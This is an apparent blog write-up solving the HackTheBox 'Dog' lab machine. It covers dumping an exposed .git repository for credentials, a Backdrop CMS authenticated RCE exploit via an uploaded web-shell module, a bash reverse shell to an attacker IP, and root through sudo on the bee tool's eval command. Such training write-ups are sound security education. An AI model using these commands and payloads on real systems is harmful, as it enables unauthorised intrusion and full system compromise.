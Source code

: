 ```yaml
---
title: "HackTheBox - Dog"
author: Nasrallah
description: ""
date: 2025-07-12 07:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, easy, sudo, cve, rce, git]
img_path: /assets/img/hackthebox/machines/dog
image:
    path: dog.png
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---

[Dog](https://app.hackthebox.com/machines/dog) from [HackTheBox](https://app.hackthebox.com/) is running backdrop cms vulnerable to authenticated rce that exploit after finding credentials on git directory in the webserver. After that we exploit a sudo entry to get root.

## **Enumeration**

### nmap

We start an Nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.129.20.168
Host is up (0.51s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 97:2a:d2:2c:89:8a:d3:ed:4d:ac:00:d2:1e:87:49:a7 (RSA)
|   256 27:7c:3c:eb:0f:26:e9:62:59:0f:0f:b1:38:c9:ae:2b (ECDSA)
|_  256 93:88:47:4c:69:af:72:16:09:4c:ba:77:1e:3b:3b:eb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: Backdrop CMS 1 (https://backdropcms.org)
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-git: 
|   10.129.20.168:80/.git/
|     Git repository found!
|     Repository description: Undogd repository; edit this file 'description' to dog the...
|_    Last commit message: todo: customize url aliases.  reference:https://docs.backdro...
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.md /web.config /admin 
| /comment/reply /filter/tips /node/add /search /user/register 
|_/user/password /user/login /user/logout /?q=admin /?q=comment/reply
|_http-title: Home | Dog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

We found two open ports, 22 running openssh and 80 running apache webserver.

The nmap scripts shows that the website uses `backdropcms` and there is also a `.git` repository.

### Web

Let's check the website.

![website](1.png)

I see a login page, but we probably need creds for that, so let's dump the `.git` we found.

```bash
git-dumper http://10.10.11.58/.git git
```

There is a `setting.php` file, let's check it out.

```bash
$database = 'mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop';
$database_prefix = '';
```

We found a password and username of the database.

Trying those credentials on the login page doesn't work.

Let's search for usernames in the repository by searching for usernames.

The about page shows the email `support@dog.htb`, so let's grep for `dog.htb` maybe we find something.

```bash
[★]$ grep -ri dog.htb ./                                                                                                                           
./.git/logs/HEAD:0000000000000000000000000000000000000000 8204779c764abd4c9d8d95038b6d22b6a7515afa root <dog@dog.htb> 1738963331 +0000  commit (initial): todo: customize url aliases. reference:https://docs.backdropcms.org/documentation/url-aliases
./.git/logs/refs/heads/master:0000000000000000000000000000000000000000 8204779c764abd4c9d8d95038b6d22b6a7515afa root <dog@dog.htb> 1738963331 +0000     commit (initial): todo: customize url aliases. reference:https://docs.backdropcms.org/documentation/url-aliases
./files/config_83dddd18e1ec67fd8ff5bba2453c7fb3/active/update.settings.json:        "tiffany@dog.htb"
```

We found `dog@dog.htb` and `tiffany@dog.htb`.

We successfully login as `tiffany`.

![dashboard](2.png)

the report page reveals the version used.

![versoin](3.png)

## **Foothold**

Searching on google for exploits we find an authenticated RCE <https://www.exploit-db.com/exploits/52021>

I'll the exploit like the following:

```bash
python exploit.py http://10.10.11.58/ 
Backdrop CMS 1.27.1 - Remote Command Execution Exploit
Evil module generating...
Evil module generated! shell.zip
Go to http://10.10.11.58//admin/modules/install and upload the shell.zip for Manual Installation.
Your shell address: http://10.10.11.58//modules/shell/shell.php
```

The exploit generated a zip file that we need to install, but the website only accepts `tar` so let's generate that.

```bash
tar -czf shell.tar.gz shell/
```

Let's go to `http://10.10.11.58/?q=admin/modules/install`

![mod](4.png)

Now we select the tar file and click install.

![install](5.png)

Now we can go to `http://10.10.11.58//modules/shell/shell.php` for the web shell.

For a reverse shell i'll execute the following command:

```bash
bash -c 'bash -i >& /dev/tcp/10.10.16.18/9001 0>&1'
```

```terminal
┌──[10.10.16.18]-[sirius💀parrot]-[25-07-12 18:58]-[/tmp/dog]
└──╼[★]$ nc -lvnp 9001                                       
Listening on 0.0.0.0 9001
Connection received on 10.10.11.58 60738
bash: cannot set terminal process group (920): Inappropriate ioctl for device
bash: no job control in this shell
www-data@dog:/var/www/html/modules/shell$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## **Privilege Escalation**

Using the password we found earlier I tried to change to another user.

```terminal
www-datak@dog:/home$ ls
jobert  johncusack
www-data@dog:/home$ su johncusack
Password: 
johncusack@dog:/home$ 
```

Let's check our privileges.

```terminal
johncusack@dog:/home$ sudo -l
[sudo] password for johncusack: 
Matching Defaults entries for johncusack on dog:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User johncusack may run the following commands on dog:
    (ALL : ALL) /usr/local/bin/bee
johncusack@dog:/home$ 
```

We can execute bee as root.

```bash
johncusack@dog:/home$ ls -l /usr/local/bin/bee
lrwxrwxrwx 1 root root 26 Jul  9  2024 /usr/local/bin/bee -> /backdrop_tool/bee/bee.php
johncusack@dog:/home$ ls -l /backdrop_tool/bee/bee.php
-rwxr-xr-x 1 root root 2905 Jul  9  2024 /backdrop_tool/bee/bee.php
```

The command links to a php file with the name bee.php.

Let's see the usage the the command.

```terminal
johncusack@dog:/backdrop_tool/bee$ sudo /usr/local/bin/bee
🐝 Bee                                                                                         
Usage: bee [global-options] <command> [options] [arguments]

Global Options:                                                                                                                                                                               
 --root                                                                                                                                                                                       
 Specify the root directory of the Backdrop installation to use. If not set, will try to find the Backdrop installation automatically based on the current directory.

ADVANCED
  eval
   ev, php-eval
   Evaluate (run/execute) arbitrary PHP code after bootstrapping Backdrop.

```

The most important options for us are `--root` and eval that allows us to basically run system commands.

The root of backdrop is at `/var/www/html`, so let's try to execute `id`.

```terminal
johncusack@dog:~$ sudo bee --root=/var/www/html eval "system('id');"
uid=0(root) gid=0(root) groups=0(root
```

It worked!

Let's get a shell as root now.

```terminal
johncusack@dog:~$ sudo bee --root=/var/www/html eval "system('bash');"
root@dog:/var/www/html#
```

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
